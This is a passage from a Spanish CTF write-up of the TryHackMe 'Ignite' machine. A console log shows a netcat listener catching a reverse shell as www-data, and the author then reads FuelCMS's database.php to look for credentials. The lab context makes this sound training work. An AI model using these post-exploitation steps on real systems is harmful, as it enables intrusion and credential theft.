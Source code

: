 Después de probar varias cosas sin éxito me doy de narices con el siguiente párrafo de la home del CMS.

![](/assets/posts/20220920/img03.png)

> Después de crear la base de datos, cambie la configuración de la base de datos que se encuentra en **fuel/application/config/database.php** para incluir su nombre de host (por ejemplo, localhost), nombre de usuario, contraseña y la base de datos para que coincida con la nueva base de datos que ha creado.

<br>

Vamos para allí.


```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Ignite]
└─$ nc -lvp 4433
listening on [any] 4433 ...
[...]
www-data@ubuntu:/home/www-data$
www-data@ubuntu:/home/www-data$ cd /var/www/html/fuel/application/config
cd /var/www/html/fuel/application/config
www-data@ubuntu:/var/www/html/fuel/application/config$ ls
ls
MY_config.php        constants.php      google.php     profiler.php
MY_fuel.php          custom_fields.php  hooks.php      redirects.php
MY_fuel_layouts.php  database.php       index.html     routes.php
MY_fuel_modules.php  doctypes.php       memcached.php  smileys.php
asset.php            editors.php        migration.php  social.php
autoload.php         environments.php   mimes.php      states.php
config.php           foreign_chars.php  model.php      user_agents.php
www-data@ubuntu:/var/www/html/fuel/application/config$ cat /var/www/html/fuel/application/config/database.php
<$ cat /var/www/html/fuel/application/config/database.php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
[...]
|
| The $active_group variable lets you choose which connection group to
| make active.  By default there is only one group (the 'default' group).
```